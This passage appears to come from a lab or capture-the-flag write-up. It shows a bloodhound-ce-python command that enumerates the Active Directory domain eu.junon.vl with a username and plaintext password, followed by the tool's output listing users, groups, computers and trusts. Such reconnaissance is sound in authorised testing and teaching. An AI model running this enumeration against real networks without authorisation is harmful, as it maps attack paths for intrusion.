└─$ bloodhound-ce-python -ns 172.16.21.222 -dc S021M200.eu.junon.vl -d eu.junon.vl -u 'dom-fstewart@work.junon.vl' -p 'HO4_+eWWPd66K9' -c All --zip --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: eu.junon.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: S021M200.eu.junon.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: S021M200.eu.junon.vl
INFO: Found 211 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: S021M215.eu.junon.vl
INFO: Querying computer: s021m200.eu.junon.vl
INFO: Done in 00M 07S
INFO: Compressing output into 20260331105333_bloodhound.zip

```

For the post analysts check the secondary domain page.

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;